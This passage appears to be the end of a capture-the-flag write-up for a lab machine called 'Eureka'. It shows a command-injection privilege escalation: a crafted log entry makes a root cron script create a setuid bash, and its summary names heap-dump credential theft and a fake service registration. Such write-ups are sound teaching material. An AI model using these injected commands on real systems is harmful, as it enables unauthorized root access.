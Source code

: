     ```bash
    miranda-wise@eureka:/var/www/web/cloud-gateway/log$ rm application.log
    ```

2.  **Add a malicious log entry** to the new `application.log` file. This entry will execute a command to create a **setuid binary** of `/bin/bash` in the `/tmp` directory.

    ```bash
    miranda-wise@eureka:/var/www/web/cloud-gateway/log$ echo 'HTTP Status: x[$(cp /bin/bash /tmp/bash;chmod u+s /tmp/bash)]' >> application.log
    ```

3.  Wait for the `log_analyse.sh` script to be executed, which will be triggered by a scheduled job (e.g., cron job).

4.  After a few moments, the `log_analyse.sh` script will run as `root`, execute the command inside `[...]`, and create the setuid binary. You can now execute `/tmp/bash` with `root` privileges.

    ```bash
    miranda-wise@eureka:/$ /tmp/bash -p
    # whoami
    root
    ```

-----

## ✅ Summary

  * **User Compromise**: An exposed Spring Boot heap dump provided database and internal service credentials. The database credentials led to an initial SSH foothold. The internal Eureka server credentials were used to register a fake service, which received login credentials for another user, `miranda-wise`.
  * **Privilege Escalation**: The `miranda-wise` user was able to exploit a **command injection vulnerability** in a root-owned `log_analyse.sh` script. By manipulating a log file that the user could write to, a setuid binary of `bash` was created, granting `root` access.


**Pwned! Eureka**